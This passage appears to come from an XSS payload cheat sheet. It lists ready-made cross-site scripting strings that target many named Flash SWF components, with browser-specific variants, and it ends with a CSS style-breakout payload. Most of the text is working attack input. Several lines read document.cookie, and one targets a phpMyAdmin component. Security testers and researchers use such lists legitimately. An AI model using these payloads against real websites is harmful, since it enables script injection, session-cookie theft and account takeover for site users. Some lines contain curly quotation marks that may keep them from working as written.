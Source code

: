 XSS in SWF flash application

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);

InsecureFlashFile.swf
location to url: InsecureFlashFile.swf?a=location&c=http://www.google.com/
open url to new window: InsecureFlashFile.swf?a=open&c=http://www.google.com/
http request to url: InsecureFlashFile.swf?a=get&c=http://www.google.com/
eval js codz: InsecureFlashFile.swf?a=eval&c=alert(document.domain)
```

more payloads in ./files

XSS in SWF flash application

```javascript
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```
